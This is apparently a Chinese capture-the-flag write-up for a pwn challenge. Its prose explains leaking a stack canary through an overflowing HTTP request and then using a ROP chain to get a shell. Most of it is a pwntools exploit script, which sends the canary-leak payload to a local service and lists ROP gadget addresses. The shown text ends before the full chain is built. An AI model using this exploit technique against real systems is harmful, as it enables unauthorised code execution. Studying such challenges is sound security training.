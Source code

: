 <font style="color:#000000;">里面存在</font>`<font style="color:#000000;">UAF</font>`<font style="color:#000000;">，但无法利用。</font>

<font style="color:#000000;">选手需要排除干扰，通过多次栈溢出来获得</font>`<font style="color:#000000;">shell</font>`<font style="color:#000000;">。</font>

<font style="color:#000000;">因此，构造两个数据包，第一个泄露</font>`<font style="color:#000000;">canary</font>`<font style="color:#000000;">，第二个</font>`<font style="color:#000000;">rop</font>`<font style="color:#000000;">拿下</font>`<font style="color:#000000;">shell</font>`<font style="color:#000000;">。</font>

```python
from pwn import *

filename = './pwn'
context.arch='amd64'
context.log_level = "debug"
context.terminal = ['tmux', 'neww']
local = 0
all_logs = []
elf = ELF(filename)
libc = elf.libc

if local:
    sh = process(filename)
else:
    sh = remote('localhost', 9999)

def debug(params=''):
    for an_log in all_logs:
        success(an_log)
    pid = util.proc.pidof(sh)[0]
    gdb.attach(pid+2, params)
    pause()

def leak_info(name, addr):
    output_log = '{} => {}'.format(name, hex(addr))
    all_logs.append(output_log)
    success(output_log)

# debug("")

template = '''POST /{} HTTP/1.1\r
Host: www.baidu.com\r
User-Agent: Haha\r
Content-Length: {}\r
Content: {}\r
'''
payload = template.format("show", 0x109, 'a'*0x109)
sh.send(payload)

sh.recvuntil(b'a'*0x109)
canary = u64(sh.recv(7).rjust(8, b'\x00'))
leak_info('canary', canary)

pop_5 = 0x40a9d7
pop_rdi = 0x40296f
pop_rsi = 0x40a9de
pop_rdx_2 = 0x4a4c4b
pop_rax = 0x459227
syscall = 0x422fe6
pop_rsp = 0x402dce
leave_ret = 0x401b01
ret = 0x40101a
bss = 0x4E8700

```